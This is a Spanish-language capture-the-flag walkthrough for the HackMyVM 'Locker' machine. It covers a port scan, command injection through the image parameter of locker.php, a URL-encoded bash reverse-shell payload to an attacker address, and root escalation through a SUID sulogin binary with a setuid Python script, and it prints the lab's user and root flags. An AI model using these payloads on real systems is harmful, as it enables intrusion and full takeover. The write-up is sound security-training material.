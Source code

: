 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Locker HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 03:47 EDT
Nmap scan report for 192.168.5.11
Host is up (0.0014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:4A:3E:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.72 seconds
```

Veremos que solo tenemos un puerto `80`, si entramos dentro veremos una pagina web normal que pone lo siguiente:

<figure><img src="../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

No vemos nada interesante, por lo que vamos a clickar en `Model 1` a ver que nos encontramos, echo eso veremos lo siguiente en la pagina:

<figure><img src="../../.gitbook/assets/image (377).png" alt=""><figcaption></figcaption></figure>

Pero sobre todo es muy interesante la `URL` ya que esta utilizando `PHP` y llamando mediante un parametro `image` a un numero que se identifica como a la imagen, por lo que vamos a realizar varias pruebas de vulenrabilidades sobre dicho parametro no vaya a ser que se pudiera injectar comandos.

## Escalate user www-data

Realizando varias pruebas despues de estar un rato, vemos que concatenando comandos nos funciona, si abrimos `BurpSuite` y capturamos la peticion, lo mandamos al `Repeater` y realizamos ahi las pruebas, veremos que si ponemos lo siguiente podremos realizar un `RCE`.

```
URL = http://<IP>/locker.php?image=1;id;
```

Probando a poner `id` solamente, despues concatenandolo, tampoco funcionaba, pero si le pones un `;` extra detras, ya si que funciona y veremos lo siguiente en la peticion de respuesta:

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 10 May 2025 07:57:48 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 112

<img src="data:image/jpg;base64,uid=33(www-data) gid=33(www-data) groups=33(www-data)
"width="150"height="150"/>
```

Vemos que nos esta funcionando, por lo que vamos a generar una `reverse shell` de esta forma:

```
URL = http://<IP>/locker.php?image=1;bash+%20-c+%20"bash+%20-i+%20>%26+%20/dev/tcp/<IP_ATTACKER>/<PORT>+%200>%261";
```

Ahora nos pondremos a la escucha antes de enviarlo.

```shell
nc -lvnp <PORT>
```

Si enviamos la peticion y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.11] 54772
bash: cannot set terminal process group (362): Inappropriate ioctl for device
bash: no job control in this shell
www-data@locker:~/html$ whoami
whoami
www-data
```

Veremos que hemos obtenido acceso como el usuario `www-data` por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez sanitizado todo, vamos a leer la `flag` del usuario.

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos con dicho usuario, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
15884    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
     4639     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   137057     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
     3596     48 -rwsr-sr-x   1 root     root          47184 Jan 10  2019 /usr/sbin/sulogin
     3890     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
       62     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
     3415     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
       59     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
       60     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
       63     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
     3888     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     3562     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
```

Vemos uno bastante interesante, que es el siguiente:

```
3596   48 -rwsr-sr-x   1 root   root   47184 Jan 10  2019 /usr/sbin/sulogin
```

Vamos a investigar que hace dicho binario.

Si investigamos un poco cuando se ejecuta el binario entramos en un `interpreter` en el que podemos ejecutar comandos, pero al tener esta `shell` dentro de un contenedor de la maquina victima no va a funcionar a parte de que esta como bloqueado, pero si investigamos con el parametro `-e` podemos forzar esa ejecuccion y tendremos que exportar la variable de entorno `SUSHELL` para poner el script que queremos que ejecute para poder obtener acceso a `root`, por lo que haremos lo siguiente:

```shell
cd /tmp
```

> bash.py

```python
#!/bin/python3

import os

os.setuid(0)
os.setgid(0)
print("Obteniendo Bash como root...")

os.system('/bin/bash')

print("Ya eres root!!")
```

Lo guardamos y establecemos permisos de ejecuccion:

```shell
chmod +x bash.py
```

Echo esto tendremos que exportar la variable de entorno a la de la ruta de `/tmp` con el script de `python`.

```shell
export SUSHELL=/tmp/bash.py
```

Echo esto, podremos ejecutar el `binario` con permisos de `SUID` pero haciendolo de una manera forzada con el parametro `-e`.

```shell
/usr/sbin/sulogin -e
```

Info:

```
Press Enter for maintenance
(or press Control-D to continue): # Dejamos el campo vacio y le damos a "ENTER"
Obteniendo Bash como root...
root@locker:~# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos las `2` `flags` la del usuario y la de `root`.

> user.txt

```
flaglockeryes
```

> root.txt

```
igotroothere
```
